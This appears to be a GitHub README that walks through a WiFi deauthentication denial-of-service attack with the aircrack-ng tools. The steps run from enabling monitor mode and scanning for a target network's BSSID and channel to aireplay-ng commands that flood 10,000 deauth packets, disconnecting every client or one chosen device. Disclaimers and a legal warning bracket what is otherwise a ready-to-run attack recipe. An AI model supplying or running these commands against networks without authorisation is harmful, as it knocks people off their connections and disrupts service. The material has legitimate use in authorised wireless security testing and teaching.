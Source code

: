 # WiFi DOS Attack (Deauthentication Attack)

## Disclaimer  
This guide is for educational purposes only. Unauthorized access to networks is illegal and punishable under law. Only perform these actions on networks you own or have permission to test.  

---

## Step-by-Step Guide  

### Step 1: Enable Monitoring Mode  
First, put your WiFi adapter into monitoring mode. Run:  

```bash
airmon-ng start wlan0
```
Replace `wlan0` with your adapter's name. You can check the name using:  

```bash
ifconfig
```
or  

```bash
iwconfig
```

---

### Step 2: Verify Monitoring Mode  
Confirm that your network adapter is now in monitoring mode:  

```bash
ifconfig
```
or  

```bash
iwconfig
```
Once confirmed, proceed to the next step.  

---

### Step 3: Scan for Target WiFi  
Find the **BSSID** (MAC address) and **channel** of the target WiFi network:  

```bash
airodump-ng wlan0
```
This will scan for nearby WiFi networks. Once you spot your target, press `Ctrl + C` to stop scanning.  

Copy the **BSSID** and **channel** of the target WiFi.  

---

### Step 4: Focus on the Target WiFi  
Now, scan only the target WiFi network to view connected devices:  

```bash
airodump-ng --channel {channel_number} --bssid {bssid} wlan0
```
Replace `{channel_number}` and `{bssid}` with the values you copied earlier.  

This will display only the connected devices on the target network.  

---

### Step 5: Launch the Deauthentication (DOS) Attack  

#### Attack the Entire WiFi Network  
Send deauthentication packets to disconnect all devices from the target WiFi:  

```bash
aireplay-ng --deauth 10000 -a {bssid} wlan0
```
This sends 10,000 deauth packets to the target network. You can increase or decrease the number based on your needs.  

#### Attack a Specific Device  
If you want to target a specific device, use its MAC address (Station ID) from the previous scan:  

```bash
aireplay-ng --deauth 10000 -a {bssid} -c {device_mac} wlan0
```
Replace `{device_mac}` with the MAC address of the device you want to disconnect.  

---

## Notes  
- You need a **compatible WiFi adapter** that supports **monitor mode** and **packet injection**.  
- This attack **does not break WiFi encryption**; it only **disconnects devices** temporarily.  
- The attack stops when you stop running the command.  

---

## Legal Warning  
Performing unauthorized attacks on networks you don’t own is illegal and can result in severe penalties. Always ensure you have explicit permission before testing network security.  
